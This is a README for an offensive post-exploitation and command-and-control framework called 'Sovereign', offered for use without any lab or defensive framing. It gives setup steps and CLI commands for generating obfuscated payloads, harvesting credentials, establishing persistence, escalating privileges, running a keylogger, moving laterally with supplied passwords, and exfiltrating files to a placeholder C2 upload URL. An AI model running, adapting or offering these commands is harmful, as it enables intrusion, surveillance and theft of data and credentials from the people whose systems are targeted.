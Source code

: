 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate_payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest_credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish_persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate_privileges
```

#### Gather system information:
```bash
python cli/cli.py gather_system_info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start_keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list_agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate_payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest_credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish_persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate_privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather_system_info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

9. **Starting a keylogger**:
    ```bash
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file
    ```

10. **Moving laterally**:
    ```bash
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate_report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
